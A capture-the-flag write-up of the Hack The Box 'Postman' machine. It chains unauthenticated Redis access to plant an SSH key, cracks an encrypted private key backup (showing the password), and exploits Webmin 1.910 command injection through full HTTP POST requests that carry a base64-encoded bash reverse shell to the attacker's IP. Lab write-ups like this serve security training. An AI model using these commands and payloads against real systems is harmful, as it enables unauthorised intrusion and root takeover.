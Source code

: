 # Postman

![image](https://user-images.githubusercontent.com/10210108/79376241-e1fb0d00-7f27-11ea-96fd-634019e1fb3b.png)

## Overview

Postman is an Ubuntu box running webmin and redis. Redis (Remote Dictionary Server) is an in-memory data structure store, used as a database, cache and message broker and is designed to be accessed via trusted networks and not publicly exposed. I was able to connect to this service without authenticating, write an rsa public key to the authorized_keys file, and log in as the redis user. I found a backup of Matt's encrypted private key which I was able to crack and get Matt's password. Using Matt's password I was able to log onto Webmin and trick package_updates into executing a reverse shell as the user root.

## Enumeration

**Software**

* Ubuntu 18.04.3 LTS
* OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
* Apache 2.4.29
* Redis 4.0.9
* Webmin 1.910

**Port Scan**

```
nmap -v -Pn -sT -A -p- 10.10.10.160 -oN /mnt/data/boxes/postman/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http
* 6379/tcp - redis
* 10000/tcp - http

**Gobuster**

```
gobuster dir -u 10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 40
```

* /index.html
* /images
* /upload
* /css
* /js
* /fonts

## Steps (user)

I started by browsing to http://10.10.10.160 which brought up a page with the text "Welcome to The Cyber Geek's Personal Website!" It was a simple webpage and I was not able to find anything on the site or in the source.

![image](https://user-images.githubusercontent.com/10210108/83975278-186a5e00-a8c1-11ea-98f7-ac0d23fdb2e6.png)

Next I browsed to http://10.10.10.160:10000 which showed an error message about accessing the site via https. It also showed the hostname so i added it to /etc/hosts.

![image](https://user-images.githubusercontent.com/10210108/83975806-dbec3180-a8c3-11ea-8516-0242e2459c5e.png)

I updated the url to https and tried again, I was presented with webmin login page. I didn't have a username and password at this point moved on.

![image](https://user-images.githubusercontent.com/10210108/83975838-02aa6800-a8c4-11ea-8b70-99741361d00c.png)

Port 6379 was identified by nmap as redis. I was able to connect using the redis-cli tool without authenticating.

```
redis-cli -h 10.10.10.160
```

![image](https://user-images.githubusercontent.com/10210108/83975876-338a9d00-a8c4-11ea-8231-1d677eccf881.png)

I did an internet search for redis exploits and came across a [blog](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419) that explains that it's possible to write a public rsa key to the root account providing the ability to log in via ssh.

First I needed to create an rsa key pair 

```
ssh-keygen -t rsa
```

![image](https://user-images.githubusercontent.com/10210108/83976310-4c488200-a8c7-11ea-806d-db18659da75b.png)

Then I copied the contents of id_rsa.pub, padded with newlines, to rsa.txt. 

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > rsa.txt
```

I piped the contents of rsa.txt to the redis-cli tool, set the keyname to rsa, with rsa being set to the contents of rsa.txt
```
cat rsa.txt | redis-cli -h 10.10.10.160 -x set rsa
```

Connecting to the host again via redis-cli and typing "set rsa" confirms that the last command was successful.

![image](https://user-images.githubusercontent.com/10210108/83976698-95013a80-a8c9-11ea-9696-188a3096325d.png)

Changing directory to /root fails with a permission denied error. After looking at the output of the 'config get dir' command it showed that I was in /var/lib/redis'. I then tried 'config set dir /var/lib/redis/.ssh' and received an 'OK' response meaning that the directory change succeeded.

```
config set dir /var/lib/redis/.ssh
```

![image](https://user-images.githubusercontent.com/10210108/83979800-ee279900-a8de-11ea-9719-7d90c6608685.png)

I could now proceed with writing rsa to the authorized_keys file.

```
config set dbfilename "authorized_keys"
save
```

![image](https://user-images.githubusercontent.com/10210108/83979824-1e6f3780-a8df-11ea-9806-59bffc510102.png)

I was now able to log in via ssh with the user redis, supplying the private key.

```
ssh -i id_rsa redis@10.10.10.160
```

> Note: This user did not have permission to read the user flag

After enumerating the filesystem I came across a file in /opt called id_rsa.bak which turned out to be an encrypted rsa key.

```
cat /opt/id_rsa.bak
```

![image](https://user-images.githubusercontent.com/10210108/83976886-f544ac00-a8ca-11ea-9a86-eda1b73d5e8a.png)

I copied /opt/id_rsa to my local system so I could try and crack the password.

```
scp -i id_rsa redis@10.10.10.160:/opt/id_rsa.bak .
```

I converted id_rsa.bak to john format and saved the file as id_rsa.john

```
/usr/share/john/ssh2john.py id_rsa.bak > id_rsa.john
```

I then fed that into john using the rockyou wordlist and specifying the id_rsa.john file.

```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
```

John successfully cracked the password - 'computer2008'

![image](https://user-images.githubusercontent.com/10210108/83976972-8ae03b80-a8cb-11ea-9fa8-ec3f38607761.png)

I was able to use the switch user command to become Matt (su Matt) using the 'computer2008' password when prompted.

## Steps (root/system)

Not finding and obvious privilege escalation paths after logging in as Matt, I tried his password to log into webmin and was successful. 

The page showed the version of Webmin that was running 1.910.

![image](https://user-images.githubusercontent.com/10210108/83977141-312c4100-a8cc-11ea-8a53-761be7f4d295.png)

I did a searchsploit search for webmin 1.910 and found 1 result.

![image](https://user-images.githubusercontent.com/10210108/83977167-68025700-a8cc-11ea-840d-0e81c1769fe7.png)

Reviewing exploit, it looks like uses post request to update with a reverse shell 

![image](https://user-images.githubusercontent.com/10210108/83977440-86695200-a8ce-11ea-8d7e-902eaea3be3f.png)

```
'data' => "u=acl/apt&u= | <payload>&ok_top=Update Selected Packages"
```

The exploit is using a post request to run commands, I started simple by trying the id command (bash -c id).

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/?xnavigation=1
Connection: close
Cookie: redirect=1; testing=1; sid=ab017430a59fdc2c15a3548e6843bb27
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

u=acl%2Fapt&u=+|+bash+-c+id%26ok_top=Update+Selected+Packages
```

![image](https://user-images.githubusercontent.com/10210108/84604011-1bd18c80-ae61-11ea-84ae-f924d1b285bb.png)


With the basic test working, I moved on to adding a command to create a reverse shell. I tried commands and wasn't having any luck. After reviwaing the metasploit exploit again, I noticed it base64 encodes the payload first, then decodes and executes it on the target box. 

I base64 decoded the command and then combined this with the command found in the exploit. This base64 encoded command is decoded then executed with bash -i

```
echo 'bash -i >& /dev/tcp/10.10.14.12/4200 0>&1' | base64 
bash -c "echo 'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80MjAwIDA%2bJjEK' | base64 -d | bash -i"
```

![image](https://user-images.githubusercontent.com/10210108/83980090-ec5ed500-a8e0-11ea-8c5c-c871d579d231.png)


I updated the post request in burp with the new command (url encoded)

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/?xnavigation=1
Connection: close
Cookie: redirect=1; testing=1; sid=ab017430a59fdc2c15a3548e6843bb27
Content-Type: application/x-www-form-urlencoded
Content-Length: 152

u=acl%2Fapt&u=+|+bash+-c+"echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80MjAwIDA%2bJjEK'+|+base64+-d+|+bash+-i"&ok_top=Update+Selected+Packages
```

After sending the command I received shell as root.

![image](https://user-images.githubusercontent.com/10210108/83979040-83c02a00-a8d9-11ea-921f-646357268b48.png)

